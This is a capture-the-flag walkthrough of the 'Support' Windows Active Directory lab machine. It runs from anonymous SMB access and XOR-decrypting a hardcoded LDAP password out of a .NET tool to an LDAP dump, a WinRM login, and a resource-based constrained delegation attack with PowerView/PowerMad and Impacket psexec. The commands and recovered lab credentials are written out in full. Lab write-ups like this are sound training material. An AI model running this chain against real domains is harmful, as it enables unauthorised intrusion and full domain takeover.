# Support

This is a Windows box. Let's start with the nmap scan:



We don't have a web application running, but we've got a lot of Windows services. In this situation, I like to start by testing SMB.

```bash
smbclient -L \\\\<IP> --user=anonymous --no-pass
```



Here we can list all the available shares. Notice that anonymous login is enabled. Let's connect to the `support-tools` share, which is the odd one out.

```bash
smbclient \\\\<IP>\\support-tools --user=anonymous --no-pass
```

After connecting, we can find some tools, but the files that actually caught my attention are:
- SysInternalsSuite.zip
- UserInfo.exe.zip

As you can see in the last screenshot, for some reason there was an error downloading the large `SysInternalsSuite.zip` file. So I chose a different tool:





Investigating a little bit more, there were many Windows tools, but nothing custom apparently, so I decided to check `UserInfo.exe.zip`:



That seems to be a custom tool. Running it reveals that it has some user-related functionalities. Since this software was developed with the .NET framework, it's very easy to reverse engineer it using a tool like `dnSpy`.



As we can see, it queries LDAP by passing a username (which we see in plain text) and a password. Let's check the `getPassword` function:



The function decrypts the password using a key (`armando`) and a magic number (`223`) via an XOR operation. Let's decrypt it using a simple Python script that replicates the same logic to find the password:

```python
from base64 import b64decode

enc_password = b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
final = b""

for i in range(len(enc_password)):
    final += (enc_password[i] ^ key[i % len(key)] ^ 223).to_bytes(4, "big")

print(final.decode()) # nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

So we have:
- username: `support\\ldap`
- password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

With this information in hand, we can freely connect to LDAP and retrieve more information using `netexec`.



Dumping the objects:

```bash
nxc ldap support.htb -u support\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --query "(objectClass=*)" ""
```

After running the above query, we find information about the `support` AD user. Notice that it also reveals critical information in its "info" field, which seems to be a password. This is a classic AD vulnerability.



- Username: `support`
- Password: `Ironside47pleasure40Watchful`

Let's confirm this by connecting to the machine and obtaining the first flag:

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```



Now for the privilege escalation part. Let's run `winpeas` and check the user's groups. 





We have the `Shared Support Accounts` group, which seems interesting. I will upload and run `SharpHound` to collect AD information to find a way to escalate privileges.





After collecting the data and uploading it to `BloodHound`, we can see that the `support` user is a member of `Shared Support Accounts` and has `GenericAll` over the domain controller.



BloodHound suggests performing a delegation attack.



From here, let's follow the instructions to achieve privilege escalation. After uploading PowerView and PowerMad onto the compromised machine, I ran the following commands:

```ps1
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

$TargetComputer = "dc.support.htb"

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Then, we craft a ticket to impersonate the administrator:







The base64 string above is our impersonated ticket. Let's confirm that it was created:



Finally, after getting the kirbi ticket, we just need to convert it into a ccache ticket and use Impacket's psexec to access the DC as administrator:

```bash
export KRB5CCNAME=ccache
impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```

And we obtain the flag:

